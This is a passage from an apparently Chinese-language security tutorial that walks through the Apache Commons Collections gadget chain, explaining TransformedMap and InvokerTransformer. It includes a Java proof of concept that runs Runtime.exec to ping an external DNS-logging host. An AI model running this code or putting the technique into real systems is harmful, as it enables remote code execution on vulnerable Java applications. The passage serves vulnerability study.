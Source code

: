 上述代码的功能是将 innerMap 中的 key 全部转换为大写，value 全部加 10，然后将转换后的结果放入 outerMap 中。不难发现这类似于一个加工厂，将原料加工成成品，而这个加工厂就是 TransformedMap，而原料就是 innerMap，而成品就是 outerMap。但 put 都是向一个 Map 中去添加数据，只不过`outerMap.put("c", 3);`会走工厂被加工一下，所以运行后的结果如下，inner 和 outer 都是一个 Map-->

```
{a=1, b=2, C=13}
{a=1, b=2, C=13}
```

不难看出 xxxTransformer 就代表了实现某一项功能的类，功能真正的实现代码在 transform()这个函数中，比如 keyTransformer 就代表了将 key 全部转换为大写，valueTransformer 就代表了将 value 全部加 10（这里没有去新建类去实现接口，就是）。可以看到 transform()是重写了 Transformer 接口中的 transform()方法。

![alt text](image-44.png)

![alt text](image-45.png)

而且当执行完`Map<String, Integer> outerMap = TransformedMap.decorate(innerMap, keyTransformer, valueTransformer);`之后在 put 新的键值对是自动去调用了 xxxTransformer()中的 transform()方法，大白话一点就是弓已经拉好了，把箭搭上去即可发射。

言归正传，通过上面三段思考，去找这些个功能类中有无能造成危害的、可能被利用的地方就是去找实现 Transformer 接口的类中的 transform()方法，不班门弄斧的去找了，最后就是在 InvokerTransformer 类中找到了。

![alt text](image-46.png)

它的 transform()方法如下-->

![alt text](image-47.png)

不陌生，一个标准的反射写法，但这里可以调用执行任意类的任意方法，也就是 RCE，类是 public 的，构造函数是 public 的，写个触发 sink 的代码如下-->

```java
import org.apache.commons.collections.functors.InvokerTransformer;

public class Example {
    public static void main(String[] args) {
        String methodName = "exec";
        Class<?>[] paramTypes = new Class[]{String.class};
        Object[] argsForConstructor = new Object[]{"ping 6y7d5.cxsys.spacestabs.top"};
        InvokerTransformer invokerTransformer = new InvokerTransformer(methodName, paramTypes, argsForConstructor);
        invokerTransformer.transform(Runtime.getRuntime());
    }
}
```

本意是好的，相当于给 invoke 做了一层封装，开发人员只用关注传参即可。有利有弊吧，直接打一个 DNS，结果如下-->

![alt text](image-48.png)

## 插曲-洞悉概念

继续向下挖掘，是要去找不同类的同名函数，即 transform 方法，但这之前先洞悉几个概念（这里借鉴 P 神），去明白开发人员写下代码的意图，而不是单单去冰冷的挖掘。

1.TransformedMap 函数，这个概念通过上述给出的例子已经很明显了，TransformedMap ⽤于对 Java 标准数据结构 Map 做⼀个修饰，被修饰过的 Map 在添加新的元素时，将可以执⾏⼀个回调。弓已经拉好了，把箭搭上去即可发射。
